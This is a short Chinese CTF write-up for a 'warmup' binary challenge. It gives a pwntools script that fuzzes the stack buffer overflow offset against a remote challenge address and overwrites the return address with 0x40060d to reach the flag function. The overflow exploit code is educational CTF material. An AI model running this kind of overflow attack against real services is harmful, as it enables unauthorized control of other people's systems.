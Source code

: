 # warmup

本题没有附件，给出了一个地址，而且什么保护都没开，

所以用fuzzing尝试。

## exp
```python
import pwn

pwn.context(os='linux')

for i in range(100):
    p = pwn.remote('220.249.52.133', '39647')

    payload = b'a' * (i * 4) + pwn.p64(0x40060d)
    print(i * 4)
    p.sendlineafter(b'>', payload)
    try:
        print(p.recv())
    except:
        pass
```

当i * 4 == 64时，会重新出现提示符，应该是跳转回main()？
而当i * 4 == 72时，返回地址刚好覆盖到rip，跳转到目标函数，得到flag。